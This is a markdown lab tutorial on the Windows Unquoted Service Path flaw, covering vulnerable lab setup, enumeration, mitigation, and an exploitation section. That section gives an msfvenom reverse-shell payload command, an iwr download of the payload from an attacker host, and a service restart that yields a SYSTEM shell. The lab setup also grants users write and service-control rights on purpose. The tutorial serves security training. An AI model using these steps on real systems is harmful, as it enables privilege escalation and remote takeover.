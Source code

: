 # Unquoted Service Path

## Table of Contents

- [Unquoted Service Path](#unquoted-service-path)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

The Unquoted Service Path vulnerability in Windows occurs when services are installed using paths containing spaces without proper quotation marks. If attackers obtain write permissions in the service's installation directory, they can execute malicious code with elevated privileges.

In Windows, when a file path contains spaces and isn't enclosed within quotation marks, the operating system assumes the file's location based on predetermined rules.

This process involves checking potential paths in a sequence similar to the following:

1) C:\Program.exe

2) C:\Program Files\Vulnerable.exe

3) C:\Program Files\Vulnerable Service1\Service.exe

4) C:\Program Files\Vulnerable Service1\Service 1.exe (Finally arriving at the specified path)

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir C:\Program` Files\Vulnerable` Service1
```

2) Download the file [Service 1.exe](/Lab-Setup-Binary/Service%201.exe) to the 'C:\Program Files\Vulnerable Service1' directory.

3) Grant write privileges to BUILTIN\Users for the service folder:

```
icacls "C:\Program Files\Vulnerable Service1" /grant BUILTIN\Users:W
```

4) Install the new Service:

```
New-Service -Name "Vulnerable Service 1" -BinaryPathName "C:\Program Files\Vulnerable Service1\Service 1.exe" -DisplayName "Vuln Service 1" -Description "My Custom Vulnerable Service 1" -StartupType Automatic
```

5) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 1" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Unquoted-Service-Path-Manual-Lab-Setup](/Pictures/Unquoted-Service-Path-Manual-Lab-Setup.png)

6) Verify the new service (services.msc):

![Unquoted-Service-Path-Manual-Lab-Setup-Verify](/Pictures/Unquoted-Service-Path-Manual-Lab-Setup-Verify.png)

7) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 1"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Unquoted Service Path' vulnerability is by using the custom PowerShell script named [UnquotedServicePath.ps1](/Lab-Setup-Scripts/UnquotedServicePath.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\UnquotedServicePath.ps1
```

Outcome:

![Unquoted-Service-Path-Script-Lab-Setup](/Pictures/Unquoted-Service-Path-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 1"
```

## Enumeration

### Manual Enumeration

1) Open a command prompt and use the following command to find out if there is any service application vulnerable to Unquoted Service Path:

```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

2) Use the following command to find the `START_TYPE`, `SERVICE_START_NAME` and `BINARY_PATH_NAME`:

```
sc qc "Vulnerable Service 1"
```

3) Use icacls to identify the permissions of the service installation folder:

```
icacls "C:\Program Files\Vulnerable Service1"
```

Outcome:

![Unquoted-Service-Manual-Enumeration](/Pictures/Unquoted-Service-Manual-Enumeration.png)

:information_source: Finally, as you can see: 

- There is a vulnerable service named "Vulnerable Service 1".
- The service automatically starts after machine boots.
- The Local System runs the service.
- The BUILTIN\Users can write in C:\Program Files\Vulnerable Service1 folder.

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Unquoted Service Path` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit UnquotedServicePath
```

Outcome:

![Unquoted-Service-Tool-Enumeration](/Pictures/Unquoted-Service-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Verify the service state:

```
sc query "Vulnerable Service 1"
```

2) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service.exe
```

3) Open a listener in your kali machine.

4) Transfer the malicious executable in "C:\Program Files\Vulnerable Service1\":

```
iwr -Uri http://<ip>:<port>/Service.exe -Outfile "C:\Program Files\Vulnerable Service1\Service.exe"
```

5) Try to find out if you have the permission to restart the service or re-start the machine:

```
sc stop "Vulnerable Service 1"
```

and 

```
sc start "Vulnerable Service 1"
```

Outcome:

![Unquoted-Service-Exploitation](/Pictures/Unquoted-Service-Exploitation.png)

6) Verify the reverse shell on your Kali machine:

![Unquoted-Service-Path-Reverse-Shell](/Pictures/Unquoted-Service-Path-Reverse-Shell.png)

## Mitigation

To defend against Unquoted Service Path vulnerabilities, modify the service configuration to include proper quotation marks around the executable path. Moreover, review the permissions of service installation folder and binary file to prevent unauthorized changes.

## References

- [Introduction to Windows Services applications Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
- [Hot to Create Windows Services Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/how-to-create-windows-services)
- [Fix Windows Unquoted Service Path Vulnerability by isgovern](https://isgovern.com/blog/how-to-fix-the-windows-unquoted-service-path-vulnerability/)
- [Unquoted Service Paths by CyberTec](https://kb.cybertecsecurity.com/knowledge/unquoted-service-paths)
- [FixUnquotedPaths GitHub by NetSecJedi](https://github.com/NetSecJedi/FixUnquotedPaths)

